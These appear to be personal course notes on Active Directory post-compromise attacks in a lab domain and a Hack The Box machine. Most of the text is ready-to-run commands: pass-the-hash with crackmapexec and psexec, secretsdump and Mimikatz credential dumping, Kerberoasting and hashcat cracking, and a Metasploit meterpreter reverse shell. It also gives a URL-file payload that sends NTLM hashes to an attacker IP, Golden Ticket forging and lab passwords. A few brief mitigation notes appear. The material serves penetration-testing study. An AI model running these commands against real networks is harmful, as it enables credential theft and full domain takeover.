








Attacks covered in this section involve having some sort of credential first.
- Username & Password
- Shell on a machine

**Attacks:**
- Pass the hash
- Pass the password
- Token impersonation 
- Kerberoasting 
- GPP/cPassword attacks
	- https://www.hackingloops.com/gpp-cpassword-attack-the-tale-of-leaked-key/
- Golden Ticket attacks

### Pass the Password Pass the Hash

If we crack a password or can dump the SAM hashes, we can leverage both for lateral movement in networks.

Tools: crackmapexec

Use:
```sh
crackmapexec 10.0.3.0/24 -u fcastle -d MARVEL -p Password1
```


```sh
crackmapexec <ip/CIDR> -u <username> -d <domain> -p <password>
```

Grab local hashes (metasploit)


Pass the hash

```sh
crackmapexec <ip/CIDR> -u <username> -H <hash> --local
```


You don't need to crack the password to pass the hash. 

Install crackmapexec
```sh
sudo apt install crackmapexec
```

View help screen
```sh
crackmapexec --help
```

**New Syntax for CrackMapExec**
```sh
crackmapexec smb <ip/CIDR> -u <username> -d <domain> -p <password> 
```
- It looks like you just need to add the smb part now

So for the lab we'd use
```sh
crackmapexec smb 10.0.3.0/24 -u fcastle -d MARVEL.local -p Password1
```


_The smb part is not in this command, but make sure to use it_

Here what you're looking at is that crackmap has owned the spiderman account as it already knew about the punisher account (fcastle).

Trying to dump the SAM file, which doesn't always work:
```sh
crackmapexec smb 10.0.3.0/24 -u fcastle -d MARVEL.local -p Password1 --sam
```
- Other options to try and dump
	- lsa
	- ntds

**psexec**
```sh
psexec.py marvel/fcastle:Password1@10.0.3.5
```

We can also use the matasploit version to try and get a meterpreter session.

You want to avoid using this for password spraying because you could end up locking out the users if the have a failed login attempt policy in place. You can try that with a local account. Local accounts don't have the same lockout policy like domain accounts do.

**Small Note**
Don't be confused when the IPs are changing. The lecture must have had been done in two parts, or they were changed at some point during the course. Just use whatever your AD network is on, in my case it's the `10.0.3.0/24` network. 
### How to Dump Hashes

Previously, we discover that `.142` and `.141` have the same local admin account of Frank Castle.

Using secrets dump, which is also part of the impacket toolkit. 
```sh
secretsdump.py marvel/fcastle:Password1@192.168.57.141
```


This will also dump LSA secrets and the DPAPI key. We can copy the results from both secretsdump outputs and put them into a text editor. That way, we can see if the last part of the hash is the same which would indicate password reuse. 

We could also use this in a pass the hash attack or try and crack them. 

We are not interested in the default account, guest account, or the WDAGUtiliity account, so we can delete those from the test file that we pasted them into. We are only interested in the user and admin accounts. 

These hashes are NTLM. NTLM hashes are local hashes found in the SAM.We can move them into a text file on our host machine for cracking using hashcat.  

We can use grep to find the correct hash id:
```sh
haschcat -h | grep NTLM
```

Crack the passwords in the file
```sh
hashcat -m 1000 hashes.txt rockyou.txt -O
```
- If you see a blank password the account might have been disabled

**Pass the Hash**

You only need the last part of the hash which is the password and it starts after the `:`
**Another small update to the syntax as shown below.** This video is from 2023 so it could have changed again, so make sure to run a help command if something isn't working. 

Using crackmapexec:
```sh
crackmapexec smb 192.168.57.0/24 -u "Frank Castle" -H <hash> --local-auth
```

psexec.py can utilise hashes to gain a shell:
```sh
psexec.py "frank castle":@192.168.57.141 -hashes <full-hash>
```
- You can only use this on the machine that you have the hash for. If you tried it on `.142`, for example, it wouldn't work, and you would get a login failure. 
- This might require the SMB, but it didn't say so, so keep that in mind. ALways check the help menu. 


If this works you then run the hash command and try and get a shell.

**CyberArk**

A Domain Admin password management system that generates a very long password for you to use for 8 hours while at work. The next day the password will be changed to a different one. This is why going after the local admin accounts can be quite powerful.

---
### Mitigation 


---
### Token Impersonation


This PowerShell script, Invoke-Mimikatz, is trying to dump hashes.

**What if a Domain Admin Token was Available?**


The `marvel\administrator`account is now available to us.

We try running `Invoke-Mimikatz`again, and it is successful this time!


This dumps all the hashes in the Network, including the Kerberos hash.


**How to Perform the Attack**

```sh
msfconsole
```

```sh
use exploit/windows/smb/psexec
```

```sh
options
```

```sh
set rhosts 192.168.57.141
```

```sh
set smbdomain marvel.local
```

```sh
set smbpass Password1
```

```sh
set smbuser fcastle
```

Native upload
```sh
show targets
```

```sh
set target 2
```

Check everything is entered correctly
```sh
options
```

Set payload
```sh
set payload windows/x64/meterpreter/reverse_tcp
```

```sh
set lhost eth0
```

```sh
run
```

This should get us a meterpreter session.

Retrieving some information on the meterpreter shell.

System information
```sh
sysinfo
```

User ID
```sh
getuid
```

Hash dump
```sh
hashdump
```

View tools
```sh
load
```

Can load powershell if doing it manually doesn't work which it sometimes does not.

Load powershell manually.

Drop into system shell
```sh
shell
```

Execute powershell
```sh
powershell -ep bypass
```

Load incognito tool
```sh
load incognito
```
- If you type help, the last thing at the bottom is what we loaded

Once you have impersonated a token you can try and:
- Add a user
- Add a user to groups

List tokens
```sh
list_tokens -u
```



Impersonate user
```sh
impersonate_token marvel\\administrator
```

If you drop into a shell and do a `whoami` command you'll see that you are that user. `CTRL + C` to exit the channel and return to meterpreter.

However, if you try to run hash dump now, it wont work because you're not actually running as that user. To switch back to the user you got the meterpreter shell on type:
```sh
rev2self
```

In the lab if we log in with another user, for example, fcastle. If we list tokens again, it will detect that user. Delegation tokens are on login or RDP session. 



Now to login as fcastle we can repeat the above steps. 

---
### Mitigation

**Mitigation Strategies**
- Limit user/group token creation permissions (will not fully prevent the attack)
- Account tiering
	- Domain admins should only be logging into the Domain Controller
	- If the domain admin logs into a normal workstation, we can impersonate the token! 
- Local admin restrictions
	- If users are not local admins on their computers, we can't get a shell on that account. Make use of two accounts, the regular account and the admin account used to login to the Domain Controller

---
### Kerberoasting



Resource: https://medium.com/@Shorty420/kerberoasting-9108477279cc

Domain Controller is also known as a Key Distribution Centre. 
TGT - Ticket Granting Ticket
NTLM Hash - Encrypted Username and Password
krbtgt - Kerberos Ticket Granting Ticket hash
TGS - Ticket Granting Service ticket
Server service has an SPN (Service Principle Name)

1. Request TGT. Provide NTLM hash
2. Recieve TGT encrypted with krbtgt hash
3. Request TGS for Server (presents TGT)
4. Receive TGS encrypted with server's account hash (TGS received)
5. Present TGS for service encrypted with server's account
6. Used when mutually authentication is required 

Using another impacket tool we can intercept some of this information
```sh
python GetUserSPNs.py MARVEL.local/fcastle:Password1 -dc-ip 10.0.3.4 -request
```
- dc-ip - Domain Controller IP



```sh
python GetUserSPNs.py <DOMAIN/username:password> -dc-ip <DC-ip> -request
```

We can now copy the hash and try and crack it with hashcat.

This attack needs to have a known user account. It doesn't have to be a domain admin account. As soon as you have the credentials of a user you can try this attack. 

Copy the whole hash for hashcat and run help to find the module for the hash.
```sh
hashcat --help | grep Kerberos
```
- Looking for Kerberos 5 TGS

Cracking the hash
```sh
hashcat -m 13100 hash.txt rockyou.txt -O
```

---
### Mitigation

Mitigation strategies:
- Strong passwords (30 characters, longer the better. Not usual English words)
- Least privilege 

---
### Group Policy Preference (GPP) MS14-025

**Overview**



How to check for the exploit using a metasploit module.
Auxiliary: smb_enum_gpp

The password is stored in SYSVOL.

Cracking with a tool built into kali:
```sh
gpp-decrypt <cPassowrd>
```

Hack the Box has a machine called Active that can be used to test this attack.

**Using Active to test the exploit.** 

Scan with namp
```sh
namp -T5 10.10.10.100
```
- When you scan a domain controller you expect to see open ports 53. 88, 389, and 636
	- 53 - Domain 
	- 88 - Kerberos
	- 389 - ldap
	- 636 - ldaps

List SMB shares
```sh
smbclient -L \\\\10.10.10.100\\
```

Anonymous access on the Replication share
```sh
smbclient -L \\\\10.10.10.100\\Replication
```

SYSVOL stores a groups.xml file which is where you can find the cPassword.

Turn off prompt when we download files, and turn recurse on to downlaod all the files we tell it to.
```sh
prompt off
```

```sh
recurse on
```

Download all the files
```sh
mget *
```

We're looking for `Groups.xml`

Alternatives to downloading all the files:
- GPP enumerate (meterpreter)
- Powershell scripts  (invoke GPP)

You can use the mget output to see where on kali it's stored the `Groups.xml`file. When we open the file we can see the password. Copy the pass and use gpp-decrypt.



**Credentials:**
User: active.htb\svc_tgs
Pass: GPPstillStandingStrong2k18

What can we do with this?

psexec
```sh
psexec.py active.htb/svc_tgs:GPPstillStandingStrong2k18@10.10.10.100
```
- Not writable

What about kerberoasting?

GetUserSPNs
```sh
GetUserSPNs.py active.htb\svc_tgs:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
```



Copy it into your hashfile for hashcat and crack the password:
```sh
hashcat -m 13100 hash.txt rockyou.txt -O
```

User: Administrator
Password: Ticketmaster1968

Now we can try psexec with the new information:
```sh
psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100
```

That gets root on the system. 

---
### URL File Attacks

Payload (on the WIndows VM)
```url
[InternetShortcut]
URL=blah
WorkingDirectory=blah
IconFile=\\192.168.138.128\%USERNAME%.icon
IconIndex=1
```
- The IP address is going to be the attacker IP
- Save the file to a share as `"@test.url"` It requites the `@` and the extension.
- The `@` puts the file at the top of the share folder and ensures that it loads (if there is a lot of files in the share)
- If it was a finance folder you might call it something like: `@Q4Financials.url`
- You could redirect to google, or something, by changing the working directory.

Responder will pick this up and grab the NTLM hash.
```sh
responder -I eth0 -v
```

---
### Mimikatz

**Overview**

What is Mimikatz?:
- Tool used to view and steal credentials, generate Kerberos tickets and leverage attacks
- Dumps credentials stored in memory
- Just a few attacks: 
	- Credential dumping
	- Pass-the-Hash
	- Over-Pass-the-Hash
	- Pass-the-Ticket
	- Golden Ticket
	- Silver Ticket

Resources: https://github.com/gentilkiwi/mimikatz

Tools that include Mimikatz: 
- Powershell (Invoke Mimikatz)
	- Ran on disk
	- Via IEX which is a way to download files via powershell
- Obfuscation 

For the lab, we need to disable windows defender and download it onto the domain controller. We ar assuming that we have compromised the domain controller already. 

### Credential Dumping

1. Open CMD
2. cd downloads and execute mimikatz

```sh
mimikatz.exe
```

```sh
privilage::debud
```
- Response: Privilege '20' OK
	- Allows us to debug a process that we wouldn't normally have access to 

Get credentials
```sh
sekurlsa::logonpasswords
```

Will give account details and the NTLM hash for the accounts. We could use this in a pass the hash attack, or try and crack it. 

**What is wdigest?:** 
It was a feature that previously was on by default and stored your password in plain text. Patched in windows 8, which just means they turned it off but didn't remove it. If you can turn this on and you have a few days on a pentest, it wouldn't be a bad idea because you might get the passwords. You'd need someone to logon or reboot. 

Try and dump the SAM
```sh
lsadump::sam
```

```sh
lsadump::sam /patch
```

If this didn't work you could use a metasploit shell and dump the SAM, or use secrets.py. You could also just download the SAM.

Dump the LSA
```sh
lsadump::lsa /patch
```
- This also reveals the NTLM hash, user account, and RID (relative identifier)

In a real assessment this might dump hundreds of NTLM hashes. It's important to know what percentage of them you're able to crack. We can relay this information back to the client. If we are cracking 50% of the passwords, they probably have a poor password policy, but if we can only crack a few of them then it's probably pretty strong. 

### Golden Ticket Attack

Previously we dumped the krbtgt account, what is that? That's the Kerberos ticket granting ticket account. That allows us to generate tickets. What if we have the hash of that account? That allows us to generate the tickets. In short, it gives us access to any resource on the Domain.

If we have a golden ticket, we have complete access to all of the Domain!

Start mimikatz
```sh
mimikatz.exe
```

Privilege access
```sh
privilege::debug
```

```sh
lsadump::lsa /inject /name:krbtgt
```

What information we need from this command:
- SID of the domain. In this case, it would be a long number next to Domain : MARVEL /
- NTLM hash

Golden ticket
```sh
kerberos::golden /user:Administrator /domain:marvel.local /sid:<sid-num> /krbtgt:<NTLM-hash> /id:500 /ptt
```
- It doesn't have to be a real user
- RID admin account is 500
- ptt - pass the ticket



Use the golden ticket to open a command prompt
```sh
misc::cmd
```

Open a user folder
```sh
dir \\THEPUNISHER\c$
```

We could now use `psxec.exe` if we wanted to take this further. 

Getting shell with psexec
```sh
psexec.exe \\THEPUNISHER cmd.exe
```

Think of a golden ticket as persistence. Once you own the Domain Controller you can create your own account and make them an admin, although a good admin would pick that up. 

---

**Completed:** _2025-04-07_

